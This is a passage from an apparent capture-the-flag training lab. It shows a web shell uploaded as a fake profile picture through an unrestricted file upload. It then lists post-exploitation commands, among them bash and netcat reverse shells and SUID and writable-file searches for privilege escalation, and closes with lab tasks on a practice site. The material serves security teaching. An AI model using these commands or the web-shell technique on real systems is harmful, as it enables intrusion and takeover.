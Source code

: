 In the case of this application, the RCE is possible through unrestricted file upload. Once this "profile picture" is uploaded and updated, it is stored in the `/admin/assets/img/profile/` directory. The file can then be accessed directly via `http://<ip-address-or-localhost>/<projectname>/admin/assets/img/profile/shell.php`. When this is accessed, we can then see the malicious code in action:

![Malicious code in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358466.png)

Now, we can run commands directly against the operating system using this bar, and the output will be displayed. For example, running the command `pwd` now returns the following:

![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)

### Making the Most of It

Once the vulnerability has been exploited and you now have access to the operating system via a web shell, there are many next steps you could take depending on **a)** what your goal is and **b)** what misconfigurations are present on the system, which will determine exactly what we can do. Here are some examples of commands you could run once you have gained access and why you might run them (if the system is running on a Linux OS like our example target system):

| **Command**                                               | **Use**                                                                                                                                                                       |
| --------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ls                                                        | Will give you an idea of what files/directories surround you                                                                                                                  |
| pwd                                                       | Will give you an idea of where in the system you are                                                                                                                          |
| whoami                                                    | Will let you know who you are in the system                                                                                                                                   |
| hostname                                                  | The system name and potentially its role in the network                                                                                                                       |
| uname -a                                                  | Will give you some system information like the OS, kernel version, and more                                                                                                   |
| id                                                        | If the current user is assigned to any groups                                                                                                                                 |
| ifconfig                                                  | Allows you to understand the system's network setup                                                                                                                           |
| bash -i >& /dev/tcp// 0>&1                                | A command used to begin a reverse shell via bash                                                                                                                              |
| nc -e /bin/sh                                             | A command used to begin a reverse shell via Netcat                                                                                                                            |
| find / -perm -4000 -type f 2>/dev/null                    | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| find / -writable -type  f 2>/dev/null \| grep -v "/proc/" | Also helpful in privilege escalation attempts used to find files with writable permissions                                                                                    |

These are just some commands that can be run following a successful RCE exploit. It's very open-ended, and what you can do will rely on your abilities to inspect an environment and vulnerabilities in the system itself.

### Practical

Your task today is two-fold. First, you must access Kibana on [10.10.52.168:5601](http://10.10.52.168:5601/) to investigate the attack and answer the blue questions below. Then, you will proceed to Frosty Pines Resort's website at [http://frostypines.thm](http://frostypines.thm/) and recreate the attack to answer the red questions and inform the developers what element of the website was vulnerable.
